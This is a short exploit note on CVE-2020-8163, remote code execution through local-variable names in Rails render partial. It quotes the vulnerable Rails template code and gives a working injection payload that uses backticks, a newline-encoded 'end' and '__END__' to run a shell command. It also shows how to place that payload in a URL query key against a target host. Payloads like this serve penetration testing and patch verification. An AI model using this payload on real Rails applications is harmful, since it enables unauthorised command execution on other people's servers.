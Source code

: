 # CVE-2020-8163: Rails local name RCE

If the attacker can control the key in a key:value pair, inside a "render partial", you can get RCE  

Identify by injecting into the key  

```ruby
def locals_code #:nodoc:
  # Double assign to suppress the dreaded 'assigned but unused variable' warning
  @locals.each_with_object('') { |key, code| code << "#{key} = #{key} = local_assigns[:#{key}];" }
end

source = <<-end_src
  def #{method_name}(local_assigns, output_buffer)
    _old_virtual_path, @virtual_path = @virtual_path, #{@virtual_path.inspect};_old_output_buffer = @output_buffer;#{locals_code};#{code}
  ensure
    @virtual_path, @output_buffer = _old_virtual_path, _old_output_buffer
  end
end_src
```

Injection happens in the first "#{key}" in the locals_code method  
Need to use a comment to end everything after `__END__`  

Payload will be:

```ruby
`id`%0aend%0a__END__%0a
```

The backticks drop down to a shell to execute the command  
"end" is dropped to a new line to end the method  
"__END__" is dropped onto its own new line so it comments out the remaining code  

```ruby
# As it fits into a url
target.com/test?value=125
target.com/test?`id`%0aend%0a__END__%0a=125
```
